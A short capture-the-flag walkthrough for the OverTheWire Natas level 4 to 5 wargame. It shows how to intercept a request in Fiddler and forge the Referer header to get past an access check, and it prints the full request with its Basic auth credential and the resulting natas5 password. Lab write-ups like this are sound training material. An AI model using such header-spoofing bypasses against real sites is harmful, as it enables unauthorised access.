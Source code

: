 # Level 4 to Level 5

Using a program like [Fiddler](http://www.telerik.com/fiddler), put the program in "breakpoint mode":

Rules > Automatic Breakpoints > Before Requests

Then click in "Refresh" on the natas4 page and change the "Referer" header of the request in Fiddler

```
GET http://natas4.natas.labs.overthewire.org/index.php HTTP/1.1
Host: natas4.natas.labs.overthewire.org
Connection: keep-alive
Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.88 Safari/537.36 Vivaldi/1.7.735.46
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
DNT: 1
Referer: http://natas5.natas.labs.overthewire.org/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8
```

Go to the page again and you have the following message:

```
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```